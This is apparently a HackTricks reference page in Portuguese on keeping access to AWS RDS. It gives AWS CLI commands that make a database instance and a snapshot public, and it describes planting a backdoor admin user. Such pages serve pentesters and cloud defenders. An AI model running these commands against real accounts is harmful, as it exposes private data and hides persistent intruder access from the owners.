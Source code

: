 # AWS - RDS Persistence

{{#include ../../../../banners/hacktricks-training.md}}

## RDS

Para mais informações, veja:

{{#ref}}
../../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### Tornar a instância publicamente acessível: `rds:ModifyDBInstance`

Um atacante com essa permissão pode **modificar uma instância RDS existente para habilitar acesso público**.
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### Criar um usuário administrador dentro do DB

Um atacante poderia simplesmente **criar um usuário dentro do DB** para que, mesmo se a senha do usuário master for modificada, ele **não perca o acesso** ao banco de dados.

### Tornar o snapshot público
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../../banners/hacktricks-training.md}}
